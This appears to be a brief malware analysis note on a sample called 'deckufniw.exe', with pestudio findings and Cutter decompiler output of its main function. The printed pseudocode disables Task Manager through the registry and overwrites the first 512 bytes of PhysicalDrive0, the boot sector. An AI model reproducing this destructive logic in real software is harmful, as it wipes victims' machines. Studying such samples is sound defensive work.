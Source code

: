 ### Pestudio

![[Pasted image 20230821234404.png]]
![[Pasted image 20230821234425.png]]
2 malware indicators have been flagged by pestudio.

![[Pasted image 20230821234505.png]]
Malicious imports -
![[Pasted image 20230821234534.png]]
![[Pasted image 20230821234552.png]]
Now opening in cutter -

The decompiled main function -
```
int32_t main (void) {

PHKEY lpNumberOfBytesWritten;

int32_t var_8h;

eax = *(data.00415004);

eax ^= ebp;

esi = imp.MessageBoxW;

eax = void (*esi)(uint32_t, uint32_t, char*, uint32_t, uint32_t) (0, eax, "Sure? - deckufniw.exe", 0x34, esi);

if (eax == 6) {

eax = void (*esi)(uint32_t, char*, char*, uint32_t) (0, "SURE? YOU WILL DESTROY YOUR MACHINE BY PRESSING YES!", "SURE?!", 0x34);

if (eax != 6) {

goto label_0;

}

RegCreateKeyExW (0x80000001, "Software\Microsoft\Windows\CurrentVersion\Policies\System", 0, 0, 0, 0xf013f, 0, lpNumberOfBytesWritten, 0, edi, ebx);

RegSetValueExW (lpNumberOfBytesWritten, "DisableTaskMgr", 0, 4, 1, 4);

eax = CreateFileW ("\\.\PhysicalDrive0", 0x10000000, 3, 0, 3, 0, 0);

esi = eax;

WriteFile (esi, data.00412ea8, 0x200, lpNumberOfBytesWritten, 0);

CloseHandle (esi);

ebx = imp.CreateThread;

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402e40, 0, 0, 0);

void (*ebx)(uint32_t, uint32_t, uint32_t, uint32_t, uint32_t, uint32_t) (0, 0, data.00402fe0, 0, 0, 0);

```